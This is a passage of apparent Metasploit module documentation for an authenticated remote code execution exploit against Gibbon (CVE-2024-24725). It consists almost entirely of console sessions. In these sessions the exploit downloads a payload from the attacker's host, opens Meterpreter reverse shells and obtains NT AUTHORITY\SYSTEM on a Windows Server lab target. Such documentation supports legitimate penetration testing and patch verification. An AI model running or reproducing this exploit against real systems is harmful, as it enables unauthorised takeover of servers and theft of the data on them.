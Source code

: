 ```shell
target => 3
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.4:80 can be exploited.
[+] The target appears to be vulnerable. Gibbon v26.0.00
[*] Executing Windows Command for cmd/windows/powershell/x64/meterpreter/reverse_tcp
[*] Sending stage (201798 bytes) to 192.168.201.4
[*] Meterpreter session 6 opened (192.168.201.8:4444 -> 192.168.201.4:49962) at 2024-04-01 15:11:38 +0000

meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
### Target 4 - Windows Dropper `windows/x64/meterpreter/reverse_tcp` session
```shell
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > set target 4
target => 4
msf exploit(multi/http/gibbon_auth_rce_cve_2024_24725) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.4:80 can be exploited.
[+] The target appears to be vulnerable. Gibbon v26.0.00
[*] Executing Windows Dropper for windows/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/877P8aB3
[*] Client 192.168.201.4 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1) requested /877P8aB3
[*] Sending payload to 192.168.201.4 (Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.17763.1)
[*] Sending stage (201798 bytes) to 192.168.201.4
[*] Meterpreter session 7 opened (192.168.201.8:4444 -> 192.168.201.4:49967) at 2024-04-01 15:13:43 +0000
[*] Command Stager progress - 100.00% done (147/147 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer        : WIN-BJDNH44EEDB
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

## Limitations
No limitations except for the fact that you need valid login credentials.
